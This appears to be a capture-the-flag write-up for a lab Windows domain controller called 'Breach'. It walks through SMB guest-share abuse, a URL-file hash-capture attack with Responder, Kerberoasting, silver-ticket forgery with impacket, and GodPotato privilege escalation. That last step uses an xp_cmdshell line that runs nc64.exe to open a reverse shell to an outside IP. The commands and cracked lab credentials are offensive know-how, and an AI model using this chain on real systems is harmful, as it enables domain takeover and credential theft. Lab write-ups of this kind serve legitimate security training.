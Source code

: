 
![](Breach_Cover.png)




```
[*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


Guest Share is accessible with write permission !

```
└─# crackmapexec smb 10.10.119.39 -u guest -p '' --shares
```


![](Guest_Access_.png)


### URL FILE ATTACK

We can perform this attack when we got write access to any share.

Interested Victim clicks the url file , Boom We get  [hash](https://github.com/xct/hashgrab) !


![](INternet_Short.png)


![](scf_attack.png)


![](scf_attacked.png)


If someone clicks on the url we get hash ! Start Responder !

```
└─# responder -I tun0 -v
```

![](Responder_hash.png)

If they use simple password , thats good !

![](Crack_Creds.png)




### SVC_MSSQL

Cool ! We got domain user and a lot of possibilities to enumerate.

```
└─# impacket-GetUserSPNs breach.vl/julia.wong:Computer1 -dc-ip 10.10.119.39 -request
```


![](MSSQL_hash.png)

Cracking the SPN . 

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
```

![](SPN_Cracked.png)



SERVICE TICKET CHA BHANNE --> GENERATE FUCKING SILVER TICKET !!



Convert password --< hash
```
└─# crackmapexec smb 10.10.119.39 -u svc_mssql -H 69596C7AA1E8DAEE17F8E78870E25A5C
```


Lookup for the domain sids:

```
└─# impacket-lookupsid breach.vl/svc_mssql:Trustno1@10.10.119.39 -domain-sids
```


Generate a Silver Ticket !
```
└─# impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQLSvc/breach.vl' Administrator
```

Export It !
```
└─# export KRB5CCNAME=Administrator.ccache
```


Explore!
```
┌──(root㉿BHASHMA)-[~/BACK_TO_THE_GAME/BREACH]
└─# impacket-mssqlclient breach.vl -k -no-pass 
```


![](Svc_Mssql.png)


Upload GodPotato and nc for the attack !

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell C:\Users\Public\God.exe -cmd "cmd /c C:\Users\Public\nc64.exe 10.8.0.148 1337 -e C:\windows\system32\cmd.exe"
```

![](SYSTEM_.png)


WE OWN THE DC ! FOR PERSISTENCE WE CAN RUN ANY C2 !!




